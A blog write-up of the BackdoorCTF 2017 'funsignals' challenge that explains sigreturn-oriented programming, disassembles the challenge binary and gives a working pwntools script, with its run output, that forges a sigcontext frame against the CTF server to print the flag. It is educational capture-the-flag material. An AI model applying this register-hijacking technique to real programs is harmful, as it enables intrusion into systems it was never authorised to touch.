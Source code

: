 #+TITLE: BackdoorCTF 2017: FUNSIGNALS
#+DATE: <2017-09-24 Thu 12:01>
#+TAGS: writeup, security, capture-the-flag, binary-exploitation, x86, linux

"funsignals" was a 250 point binary exploitation challenge with 58 solves. The
challenge itself was a very trivial example of sigreturn-oriented programming.

Sigreturn-oriented programming is a means of getting values into certain
registers without having to use ROP gadgets that pop values from the stack. It's
a technique that relies on how UNIX-like operating systems implement signals -
to quote an [[https://lwn.net/Articles/676803/][article from LWN on the subject]], "when a signal is delivered to a
process, execution jumps to the designated signal handler; when the handler is
done, control returns to the location where execution was interrupted. Signals
are a form of software interrupt, and all of the usual interrupt-like accounting
must be dealt with. In particular, before the kernel can deliver a signal, it
must make a note of the current execution context, including the values stored
in all of the processor registers."

That "execution context" is quite simply a structure stored on the stack, which
is colloquially known as the "sigcontext" structure and is defined in the
architecture-specific headers of the Linux kernel. x86, for example is found at
[[http://elixir.free-electrons.com/linux/latest/source/arch/x86/include/uapi/asm/sigcontext.h][=arch/x86/include/uapi/asm/sigcontext.h=]].

We're given a small amd64 Linux binary for the challenge. Its code is only a few
bytes long:

#+BEGIN_SRC asm :hl_lines 0
;-- _start:
0x10000000      31c0           xorl %eax, %eax
0x10000002      31ff           xorl %edi, %edi
0x10000004      31d2           xorl %edx, %edx
0x10000006      b604           movb $4, %dh
0x10000008      4889e6         movq %rsp, %rsi
0x1000000b      0f05           syscall
0x1000000d      31ff           xorl %edi, %edi
0x1000000f      6a0f           pushq $0xf
0x10000011      58             popq %rax
0x10000012      0f05           syscall
0x10000014      cc             int3
;-- syscall:
0x10000015      0f05           syscall
0x10000017      4831ff         xorq %rdi, %rdi
0x1000001a      48c7c03c0000.  movq $0x3c, %rax
0x10000021      0f05           syscall
#+END_SRC

Don't be intimidated by the use of the seemingly uncommon =syscall= instruction,
the portion before the 'syscall' symbol is equivalent to the following C code.

#+BEGIN_SRC c :hl_lines 0
char buf[0x400];
read(0, buf, 0x400);
sigreturn();
#+END_SRC

=sigreturn(2)= is a system call you never use in practice, but as we mentioned
earlier, the process needs to restore the context when it returns from a signal
handler. This is how it's done. =sigreturn(2)= essentially pops the =sigcontext=
structure from the stack and fills the proper registers. Also, that =int3=
instruction should be a hint to us that we'll have to manipulate the instruction
pointer, too, since the program would abort if we hit that.

A few bytes following the binary's code is a string that sticks out like a sore
thumb: ~fake_flag_here_as_original_is_at_server~. To get the flag, we're going to
want to print out whatever's at that address, which we can do with the =sys_write=
system call. We're going to want to load =0x01=, the syscall number for =sys_write=,
into =%rax=, =0x01= into =%rdi= for =stdout=, =0x10000023= into =%rsi= for the address of
the flag we want to print, and =0x29= into =%rdx= for the approximate length of the
flag. Once the registers are all set up, we're going to want to invoke the
kernel, so we'll set =%rip= to =0x10000015= - where there's a =syscall= instruction
followed by a clean exit. To load all of those registers, we will fill out a
sigcontext frame containing the values.

Now, I would highly advise against manually packing the =sigcontext= structure,
as there are a few undocumented fields that can and will cause segmentation
faults coming from seemingly nowhere. [[https://docs.pwntools.com/en/stable/][pwntools]] provides the =pwnlib.rop.srop=
package for creating sigcontext frames, and the API is simple enough to
understand just from the exploit code.

#+BEGIN_SRC python :hl_lines 0
#!/usr/bin/env python

from pwn import *


SIGCONTEXT = SigreturnFrame(arch="amd64")
SIGCONTEXT.rax = 0x01
SIGCONTEXT.rdi = 0x01
SIGCONTEXT.rsi = 0x10000023
SIGCONTEXT.rdx = 0x29
SIGCONTEXT.rip = 0x10000015

proc = remote("163.172.176.29", 9034)
proc.sendline(bytes(SIGCONTEXT))
print(proc.recv())
#+END_SRC

#+BEGIN_SRC
[jakob@Epsilon funsignals]$ ./exploit.py 
[+] Opening connection to 163.172.176.29 on port 9034: Done
b'flag{W3lc0m3_T0_th3_n3w_w0rld_OF_S1gn4l5}'
[*] Closed connection to 163.172.176.29 port 9034
#+END_SRC

As an aside, you typically won't have an explicit call to =sigreturn(2)= in the
binary. Sigreturn-oriented programming is most commonly combined with ROP, where
a gadget to load =0xf= into =%rax= and a gadget to perform a syscall are used.
